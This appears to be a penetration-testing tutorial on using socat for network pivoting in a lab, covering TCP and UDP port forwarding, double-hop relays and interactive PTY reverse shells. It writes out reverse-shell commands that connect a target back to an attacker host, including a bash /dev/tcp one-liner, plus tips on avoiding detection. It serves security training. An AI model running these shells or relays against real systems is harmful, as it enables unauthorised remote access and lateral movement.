







Socat is a multipurpose bidirectional stream relay. It connects two endpoints - each defined by a type and options - and moves data between them. In pivoting, it serves two main purposes: **raw TCP/UDP port forwarding** and **interactive TTY reverse shells**.

It is not a tunnel like Chisel or Ligolo-ng. There is no encryption, no SOCKS proxy, no session management. It is a dumb relay, and that simplicity is its strength. A single command on a Linux pivot host, and you have a working relay.

### Why Socat?

| Feature          | Socat          | Netsh (Windows) | Chisel          |
| ---------------- | -------------- | --------------- | --------------- |
| OS               | Linux (mainly) | Windows         | Both            |
| Needs binary     | Often built-in | Built-in        | Yes             |
| Encryption       | No             | No              | Yes (TLS)       |
| SOCKS proxy      | No             | No              | Yes             |
| UDP forwarding   | Yes            | No              | Limited         |
| TTY shell        | Yes            | No              | No              |

The key advantage: **socat is already installed on most Linux systems**. On Kali, Debian, Ubuntu, and many pentest targets, it's available without any transfer. That eliminates one of the most common detection vectors: a suspicious binary appearing in `/tmp`.

> [!NOTE]
> Always check before transferring anything: `which socat` or `command -v socat`. If it's there, you're already set.

### TL;DR

> In the lab scenario below: `ATTACKER_IP=192.168.1.10`, `RELAY_IP=192.168.1.20` (Web DMZ), `TARGET_IP=10.10.10.200` (Admin Mgmt).

**Local port forward** - relay traffic to an internal service:
```bash
# Generic
socat TCP-LISTEN:LISTEN_PORT,fork TCP:TARGET_IP:TARGET_PORT

# Lab example - expose Admin Mgmt port 80 via Web DMZ
socat TCP-LISTEN:8080,fork TCP:10.10.10.200:80
```

**UDP forward** - relay UDP (DNS, SNMP, etc.):
```bash
# Generic
socat UDP-LISTEN:LISTEN_PORT,fork UDP:TARGET_IP:TARGET_PORT

# Lab example - relay internal DNS through Web DMZ
socat UDP-LISTEN:53,fork UDP:10.10.10.200:53
```

**TTY reverse shell listener** (attacker):
```bash
socat file:`tty`,raw,echo=0 TCP-LISTEN:LISTEN_PORT
```

**TTY reverse shell connect** (target):
```bash
# Generic
socat exec:'bash -li',pty,stderr,sane TCP:ATTACKER_IP:LISTEN_PORT

# Lab example
socat exec:'bash -li',pty,stderr,sane TCP:192.168.1.10:4444
```

### Download and Installation

On most Linux systems:

```bash
# Debian / Ubuntu / Kali
apt install socat

# Red Hat / CentOS
yum install socat

# Arch
pacman -S socat
```

If the target has no package manager access, static binaries are available at https://github.com/andrew-d/static-binaries

```bash
# Transfer to target and run
chmod +x socat
./socat ...
```



### Lab Topology

| Host             | Primary IP    | Secondary IP  | Open Ports       | Role           |
| ---------------- | ------------- | ------------- | ---------------- | -------------- |
| Attacker (Kali)  | 192.168.1.10  | N/A           | N/A              | Attack Box     |
| Web DMZ          | 192.168.1.20  | 10.10.10.100  | 80 (outbound)    | Jump Host      |
| Admin Mgmt       | 10.10.10.200  | 10.10.20.100  | 80               | Internal Host  |
| Internal File srv| 10.10.20.200  | 10.10.30.100  | 80, 445          | Internal Host  |

The attacker cannot reach `10.10.10.200` directly. Web DMZ is a Linux host that can see both networks. We'll run socat on it as a relay.


---

### Mode 1: Local Port Forwarding (TCP)

**What it does:** Opens a port on the relay host that forwards all connections to a fixed internal destination. Any tool on the attacker that connects to the relay's public IP on the listener port reaches the internal service transparently.

**When to use it:** You want to reach a single specific service on an internal host - a web app, admin panel, database - through a Linux relay.

#### Run on Web DMZ (the Relay)

```bash
socat TCP-LISTEN:8080,fork TCP:10.10.10.200:80
```

Breaking it down:

| Part                  | Meaning                                               |
| --------------------- | ----------------------------------------------------- |
| `TCP-LISTEN:8080`     | Open a TCP listener on port 8080                      |
| `fork`                | Spawn a child process per connection (handles multiple clients) |
| `TCP:10.10.10.200:80` | Forward each connection to Admin Mgmt on port 80      |

> [!NOTE]
> Without `fork`, socat handles exactly **one** connection and exits. Always include `fork` for a proper persistent relay.



#### Access from the Attacker

```bash
curl http://192.168.1.20:8080
```

The request hits Web DMZ on port 8080 and is silently relayed to `10.10.10.200:80`. The internal service sees the connection from Web DMZ's internal IP (`10.10.10.100`), not from the attacker directly.

#### Run in the Background

```bash
socat TCP-LISTEN:8080,fork TCP:10.10.10.200:80 &

# To stop it later:
pkill socat
```



---

### Mode 2: UDP Port Forwarding

**What it does:** Same as TCP forwarding, but for UDP-based services. Netsh cannot do this at all - socat is your only built-in option for UDP relaying on Linux pivots.

**When to use it:** Internal DNS, SNMP, TFTP, or any other UDP service you need to query through a relay.

#### Run on Web DMZ

```bash
socat UDP-LISTEN:53,fork UDP:10.10.10.200:53
```


From the attacker, resolve using the relay:

```bash
dig @192.168.1.20 internal.corp.local
```

> [!NOTE]
> UDP is connectionless, so `fork` works differently than with TCP - each datagram spawns a new socat process. For high-throughput services this creates many processes. For low-volume protocols like DNS queries, it works perfectly.
> Also for ports like `53` requires root access to open.



---

### Mode 3: Interactive TTY Reverse Shell

**What it does:** Delivers a fully interactive PTY (pseudo-terminal) shell from the target back to the attacker. Unlike a basic bash reverse shell, a PTY shell supports job control (`Ctrl+C`, `Ctrl+Z`), tab completion, and proper terminal sizing - essential for tools like `vi`, `ssh`, and `sudo` that require a real terminal.

**When to use it:** You need an upgrade from a dumb shell. This is the cleanest way to get a fully interactive shell over a raw TCP connection.

> [!NOTE]
> **PTY shell vs basic reverse shell:**  
> Basic: `bash -i >& /dev/tcp/IP/PORT 0>&1` - works but breaks on interactive tools, no `Ctrl+C`.  
> Socat PTY: full terminal, job control, correct dimensions. Treat it like a real SSH session.

#### Step 1: Set Up the Listener on the Attacker

```bash
socat file:`tty`,raw,echo=0 TCP-LISTEN:4444
```

This connects the listener to your own terminal in raw mode - when the target connects, your terminal becomes the remote shell directly.



#### Step 2: Connect from the Target

```bash
socat exec:'bash -li',pty,stderr,sane TCP:192.168.1.10:4444
```

| Option      | Meaning                                                     |
| ----------- | ----------------------------------------------------------- |
| `exec:'bash -li'` | Run an interactive login bash shell                   |
| `pty`       | Allocate a pseudo-terminal for proper terminal behaviour    |
| `stderr`    | Merge stderr into stdout so errors appear inline            |
| `sane`      | Apply sensible terminal settings (fixes garbled output)     |

The result: a fully usable interactive shell.



> [!TIP]
> If `bash` is unavailable, substitute `sh -i` or use the full path: `exec:'/bin/bash -li'`

---

### Double Pivoting (Chaining Through a Second Hop)

You've accessed Admin Mgmt via Web DMZ. Now you need to reach Internal File Server at `10.10.20.200` - a host only accessible from Admin Mgmt's `10.10.20.0/24` interface.

Before diving in: remember that socat is a **port relay, not a proxy**. Unlike Ligolo-ng or Chisel where a second hop is just another route or listener in the same tunnel, each socat hop requires you to manually start a new relay process and forward a specific port. You can only reach one service at a time per relay chain - there is no equivalent of "add a route" or "restart the client". If you need port 80 and port 445 on the File Server, that's two relay chains.

Having said that, for a handful of targeted ports it works cleanly.

The strategy: set up a relay on Admin Mgmt forwarding to Internal File Server, then extend Web DMZ's relay to point at it. The attacker hits Web DMZ on one port and traffic hops twice before reaching the final target.

#### Step 1: Start a Relay on Admin Mgmt (Hop 2)

Via your existing socat relay (or shell), run this on Admin Mgmt (`10.10.10.200 / 10.10.20.100`):

```bash
# On Admin Mgmt - forward port 9090 to Internal File Server port 80
socat TCP-LISTEN:9090,fork TCP:10.10.20.200:80 &
```

Admin Mgmt is now listening on port 9090 and will relay any connection it receives to `10.10.20.200:80` (Internal File Server). This relay is only reachable from the `10.10.10.0/24` segment.

#### Step 2: Extend Web DMZ to Forward to Admin Mgmt's Relay (Hop 1)

On Web DMZ (`192.168.1.20 / 10.10.10.100`), start a second relay that forwards a new public-facing port to Admin Mgmt's relay:

```bash
# On Web DMZ - expose port 9090 outward, forward to Admin Mgmt's relay
socat TCP-LISTEN:9090,fork TCP:10.10.10.200:9090 &
```

Generic form:

```bash
# Hop 1 - on the first relay (reachable from attacker)
socat TCP-LISTEN:LISTEN_PORT,fork TCP:HOP2_IP:HOP2_PORT

# Hop 2 - on the second relay (reachable from hop 1)
socat TCP-LISTEN:HOP2_PORT,fork TCP:TARGET_IP:TARGET_PORT
```

#### Step 3: Access the Internal File Server from the Attacker

```bash
curl http://192.168.1.20:9090
```

Traffic flows: `Attacker → Web DMZ:9090 → Admin Mgmt:9090 → Internal File Server:80`


---

### Operational Security Notes

- Socat creates a **plaintext relay** - all forwarded traffic is visible on the wire unless the protocol you're tunnelling is already encrypted (e.g., HTTPS, SSH).
- The listener port is visible in `netstat -tlnp` output on the relay host.
- Socat processes appear in `ps aux` with their full command line, including the destination IP and port of your target. On monitored systems, this is a clear indicator.
- Socat is rarely available natively on Windows. For Windows relays, use `netsh` or `Chisel`.

### Quick Reference

| Mode           | Command (Relay or Target)                                                        |
| -------------- | -------------------------------------------------------------------------------- |
| TCP forward    | `socat TCP-LISTEN:LISTEN_PORT,fork TCP:TARGET_IP:TARGET_PORT`                    |
| UDP forward    | `socat UDP-LISTEN:LISTEN_PORT,fork UDP:TARGET_IP:TARGET_PORT`                    |
| TTY listener   | `socat file:\`tty\`,raw,echo=0 TCP-LISTEN:LISTEN_PORT`                          |
| TTY connect    | `socat exec:'bash -li',pty,stderr,sane TCP:ATTACKER_IP:LISTEN_PORT`              |
| Double hop (1) | `socat TCP-LISTEN:LISTEN_PORT,fork TCP:HOP2_IP:HOP2_PORT` (on first relay)      |
| Double hop (2) | `socat TCP-LISTEN:HOP2_PORT,fork TCP:TARGET_IP:TARGET_PORT` (on second relay)   |

### When to Use Socat vs Alternatives

Use **socat** when: the pivot is Linux and socat is already installed, you need a quick single-command relay, you need UDP forwarding, or you want a fully interactive PTY shell in one line.

Use **netsh** when: the pivot is Windows - socat isn't available there natively.

Use **Chisel** when: you need a SOCKS5 proxy for broad internal access (multiple hosts/ports), encryption, or the firewall restricts raw TCP relay ports. Chisel gives you everything socat's forwarding mode does, plus proxychains support.

Use **SSH dynamic forwarding** (`-D`) or **rpivot** when: you already have an SSH session or need to tunnel through an HTTP-only outbound path - both expose a full SOCKS5 proxy so proxychains works natively.

Use **Ligolo-ng** when: you need full kernel-level routing across a subnet, multiple hops, or you're tired of managing per-port relay chains. Ligolo treats the internal network as a local network interface - your tools just work.
